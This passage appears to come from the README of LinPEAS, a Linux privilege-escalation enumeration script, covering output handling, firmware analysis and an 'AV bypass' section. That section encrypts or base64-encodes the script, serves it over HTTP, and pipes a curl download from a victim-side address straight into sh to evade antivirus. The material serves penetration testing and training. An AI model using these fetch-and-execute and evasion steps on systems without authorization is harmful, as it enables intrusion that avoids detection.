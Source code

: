 ```bash
# Output to file
./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
less -r /dev/shm/linpeas.txt #Read with colors
```

```bash
# Use a linpeas binary
wget https/github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```

## AV bypass
```bash
#open-ssl encryption
openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim

#Base64 encoded
base64 -w0 linpeas.sh > lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim
```

## Firmware Analysis
If you have a **firmware** and you want to **analyze it with linpeas** to **search for passwords or bad configured permissions** you have 2 main options.

- If you **can emulate** the firmware, just run linpeas inside of it:
```bash
cp /path/to/linpeas.sh /mnt/linpeas.sh
chroot /mnt #Supposing you have mounted the firmware FS in /mnt
bash /linpeas.sh -o software_information,interesting_files,api_keys_regex
```

- If you **cannot emulate** the firmware, use the `-f </path/to/folder` param:
```bash
# Point to the folder containing the files you want to analyze
bash /path/to/linpeas.sh -f /path/to/folder
```

## Basic Information

The goal of this script is to search for possible **Privilege Escalation Paths** (tested in Debian, CentOS, FreeBSD, OpenBSD and MacOS).

This script doesn't have any dependency.

It uses **/bin/sh** syntax, so can run in anything supporting `sh` (and the binaries and parameters used).
